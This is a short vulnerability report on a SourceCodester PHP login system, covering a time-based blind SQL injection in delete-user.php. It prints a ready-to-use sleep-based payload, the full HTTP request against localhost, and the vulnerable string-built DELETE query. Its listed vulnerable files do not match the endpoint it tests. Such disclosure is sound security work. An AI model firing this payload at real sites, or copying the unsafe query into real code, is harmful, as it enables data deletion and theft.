


## User Registration and Login System by rems has SQL Injection (Time-based Blind SQLi)

BUG_Author: hlhyp

vendors: https://www.sourcecodester.com/php/16890/user-registration-and-login-system-using-php-source-code.html


dbname = registration_login_db

Vulnerability File: /endpoint/add-user.php ;/home.php


[+] payload: endpoint/delete-user.php?user=(select(0)from(select(sleep(10)))v)/*'%2B(select(0)from(select(sleep(10)))v)%2B'"%2B(select(0)from(select(sleep(10)))v)%2B"*/

```
GET /endpoint/delete-user.php?user=(select(0)from(select(sleep(10)))v)/*'%2B(select(0)from(select(sleep(10)))v)%2B'"%2B(select(0)from(select(sleep(10)))v)%2B"*/ HTTP/1.1
X-Requested-With: XMLHttpRequest
Referer: http://127.0.0.1/
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,br
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Host: 127.0.0.1
Connection: Keep-alive

```

1. sleep(10)


2. sleep(15)


Causes of vulnerabilities：

Insufficient parameter filtering for the user led to time-based blind injection.

```
$query = "DELETE FROM `tbl_user` WHERE `tbl_user_id` = '$user'";
```
SQL injection persists due to the incorrect use of prepare statements in the endpoint\delete-user.php line 9.